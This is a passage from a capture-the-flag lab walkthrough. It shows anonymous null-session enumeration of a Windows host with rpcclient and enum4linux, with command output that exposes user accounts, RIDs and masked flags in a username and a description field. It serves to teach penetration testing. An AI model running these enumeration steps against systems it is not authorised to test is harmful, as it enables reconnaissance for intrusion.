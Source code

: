 ```bash
# Connect with null session (anonymous)
┌──(kali㉿kali)-[~]
└─$ rpcclient -U "" -N 192.168.148.101
```

**Why This Works**: Windows historically allowed "null sessions" for backward compatibility. Even modern Windows might allow limited anonymous enumeration.

```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[DefaultAccount] rid:[0x1f7]
user:[admin] rid:[0x3e8]
user:[FLAG{M******8}] rid:[0x3e9]
...

rpcclient $> queryuser admin
        User Name   :   admin
        Full Name   :   Administrator
        Description :   FLAG{P**********4}
        ...
```

**🎯 FLAG 1 FOUND**: FLAG{P**********4} - In admin user description

**Why Check Descriptions?**: Administrators often use the description field for notes. In production environments, you might find passwords, account purposes, or contact information.

#### Method 2: SMB Enumeration with enum4linux

```bash
┌──(kali㉿kali)-[~]
└─$ enum4linux -U 192.168.148.101
```

**Output (Partial)**:
```
[+] Enumerating users using SID S-1-5-21-xxx-xxx-xxx and logon username '', password ''
S-1-5-21-xxx-xxx-xxx-500 WIN-TIP7RVRBJ8E\Administrator (Local User)
S-1-5-21-xxx-xxx-xxx-501 WIN-TIP7RVRBJ8E\Guest (Local User)
S-1-5-21-xxx-xxx-xxx-1000 WIN-TIP7RVRBJ8E\admin (Local User)
S-1-5-21-xxx-xxx-xxx-1001 WIN-TIP7RVRBJ8E\FLAG{M******8} (Local User)
```

**Tool Comparison**: enum4linux automates what rpcclient does manually, but understanding the manual process helps when automation fails.

### FLAG 2: Username as Flag

**Location**: Username itself  
**Difficulty**: Easy  
**Learning Objective**: Understanding RID cycling and hidden accounts

#### RID Cycling Technique
